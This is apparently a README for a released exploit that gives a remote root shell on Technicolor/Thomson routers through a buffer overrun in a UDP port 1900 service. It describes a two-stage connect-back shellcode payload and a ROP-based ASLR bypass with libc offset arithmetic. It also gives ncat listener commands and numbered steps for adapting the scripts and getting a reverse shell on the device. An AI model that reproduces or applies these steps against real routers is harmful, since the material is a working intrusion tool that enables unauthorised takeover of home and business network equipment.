 ## Welcome to rev1900 R&D


Intro : 

first things first , since this dump started somewhat with a bunch of mysteriously files , let me explain what this is : 

this will give a root shell ( connect back  mode ) on, I think,  all ... technicolor / thomson  routers that are running 2.6  / 2.4 kernels , it goes a long way...  from aprox 2009 till now 2019 , so 10 years scope , on the run.... I have used it  on tg787 tg784 tg789 , more recently tg 789vacv2  and others  ... I am releasing this because this was getting dust on the hard drives, and maybe someone will be interested in enhacing the funcionality and give some life to it, it is pretty raw now, has hardocded ips ports offsets  and waht not... . 

it was quite a challenge back them to develop this ... the crossed compiled tools without reference toolchain,  the  live endless debugging  sessions , the crashes  step ins. memory access ,   it was slow  process but a frutuosos one for me,  with persistence and a lot os patience  it came out pretty reliable. 
A one man show! and a lonely ride indeed , good times. 

may it serve you on your  quest and shed some light on your own path.

Tut :  

this is a multi stage shellcode  exploit that takes advantage from a udp 1900 service buffer overrun.

due to buffer size constraints, exploitation cannot be done in one shot , so it had to be split in a 2 stage payload : 


    stage one -> generated by genex.py  ( connect back port 444 ip 10.0.0.1 and download stage two to memory )
    stage two -> generated by genex2.py  ( connect back port 4444 ip 10.0.1 and redirect shell fds to listner , you all have a shell withou prompt when this reaches here)
    ( @toDo : rename these files for something more understandable  and add command line arguments ( connect back ip , port , etc ... ) )

    these have hardcoded ip addresses and ports ( 10.0.0.1 and ports 444 , 4444 ) 
    cat listener.sh 
    
        ncat -vv -l 444 --keep-open -c 'cat exit' & 
        ncat -v -l 444 --keep-open

this is a already working exploit , unfortunally it has that hardcoded stuff , some more thinking has to be made because , generating null free shellcode for connect back ip 10.0.0.1 takes different size than for example 192.168.1.1 , and size is a constraint here.

one final remark , this one uses some rop gadgets to bypass aslr , and libc location changes between models and firmware versions.  if a close look is taken on ex extg789vacv2.py , you will see the offset deltacomment after the registers overwrites. are the relative offsets regarding /lib/libc.so.0 location ... so how to get that reference base address from libc , i did not check if this information was dumped to telnet console , it might , but with serial console if you launch the reference crash test udp.py it will print on the serial console of the device the crash dump report with libc address [ insert example here ] , next you will have to adapt exploiy.py... or better look at extg789vacv2.py as it has the offset math comment already , ir can be automated with console args parameters , if time comes by  .... 

so ... what has to be done : 

    1>  run udp.py , and grab the offset of libc from serial console . 
    2>  adapt ext789vacv2.py  ( ra , s0 , s4 , s2  registers )  ( libc: 0x2ae50000  , ra = hex(0x2ae50000+0x60330) , and so on .... )
    3>  (listner.sh) ncat -vv -l 444 --keep-open -c 'cat exit' &  ncat -v -l 444 --keep-open 
    4>  adjust UDP_IP = "10.0.0.138" on ext789vacv2.py and make sure you are in 10.0.0.1 ( all of them listen on 10.0.0.138 , so this should not be a problem )   and sock.setsockopt(socket.SOL_SOCKET, 25, 'eth1') <---- eth1 interface ( choose yours , not relevant to shellcode payloads ... ) 
    5> run python ext789vacv2.py
    6> you should see some activity on the first ncat ( this is good ) 
    7> you should see some activity on the second ncat , at this point you have a reverse shell on this console, just type ls and the look for youtself
    8> the rest is up to you . 


 be wise , be responsible. 

 Cheers,

 keep on rolling :) 







